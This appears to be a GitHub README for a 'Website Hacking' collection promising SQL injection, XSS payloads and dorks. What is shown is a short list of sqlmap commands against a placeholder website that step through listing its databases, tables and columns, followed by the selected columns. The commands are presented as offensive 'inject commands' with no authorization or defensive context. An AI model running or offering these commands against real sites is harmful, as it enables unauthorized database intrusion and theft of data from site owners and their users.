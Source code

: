 # SQL Injection, Cross-Site Scripting, Payloads, Dorks, Commands & Lists []  Website Hacking © 2020 Collections
![Twitter URL](https://img.shields.io/twitter/url?label=Twitter&style=social&url=https%3A%2F%2Ftwitter%2Fxetaguridimitri)

# Default Inject Commands

# sqlmap -u 'Website' --dbs

# sqlmap -u 'Website' -D name.db --tables

# sqlmap -u 'Website' -D name.db -T name.table --columns

# sqlmap -u 'Website' -D name.db -T name.table -C name.columns

<p align="center"><img src="https://img.shields.io/badge/SQL-Injection-critical"></p>
